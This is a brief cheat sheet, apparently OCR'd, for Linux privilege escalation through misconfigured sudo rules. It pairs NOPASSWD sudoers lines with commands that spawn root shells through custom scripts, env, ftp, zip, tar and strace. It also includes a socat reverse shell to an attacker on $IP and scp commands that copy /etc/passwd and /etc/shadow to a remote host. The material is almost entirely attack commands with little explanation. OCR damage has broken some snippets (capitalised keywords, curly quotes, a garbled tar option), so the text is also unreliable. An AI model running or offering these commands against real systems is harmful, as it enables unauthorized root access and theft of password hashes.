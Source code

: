 ```bash
```

### Allow Root Privilege to Shell Script

ALL= (root) NOPASSWD: /bin/script/file.sh, /bin/script/file.py, shell

Python
```bash
#!  /usr/bin/python
Import os
Os.system(“/bin/bash”)
```
C
```bash
#include<stdio.h>
#include <unistd.h>
#include<sys/types.h>
Int main(){
	Setuid(geteuid());
	System(“/bin/bash”);
	Return 0;
}
```
```bash
$Gcc demo.c -o shell
./shell
```
Bash script
```bash
#! /bin/bash
/bin/bash
```

### Allow Sudo Right to other Programs

ALL=(ALL) NOPASSWD: /usr/bin/env, /usr/bin/ftp, /usr/bin/scp, /usr/bin/socat

Env
```bash
$sudo env /bin/bash
```
FTP/GDB
```bash
$Sudo ftp
$!/bin/bash
```
Socat
```bash
$socat file:`tty`,raw,echo=0 tcp-listen:1234 (attacker)
$sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:$IP:1234 (victim)
```
SCP
Syntax: scp SourceFile user@host:~/path of the directory
```bash
$sudo scp /etc/passwd user@$IP:~/
$sudo scp /etc/shadow user@$IP:~/
```
Zip 
```bash
$sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”
```
Tar
```bash
$sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash
```
Strace 
```bash
sudo strace -o/dev/null /bin/bash
```